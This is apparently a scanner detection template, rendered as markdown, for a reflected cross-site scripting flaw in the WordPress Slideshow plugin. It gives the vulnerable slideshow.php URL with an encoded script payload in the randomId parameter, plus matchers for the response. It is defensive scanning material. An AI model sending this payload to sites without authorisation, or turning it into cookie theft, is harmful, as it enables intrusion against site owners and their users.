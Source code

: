 **Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Slideshow - Cross-Site Scripting

## Description

- WordPress Slideshow plugin contains multiple cross-site scripting vulnerabilities. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - wordpress,xss,wp-plugin,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/slideshow-jquery-image-gallery/views/SlideshowPlugin/slideshow.php?randomId=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**
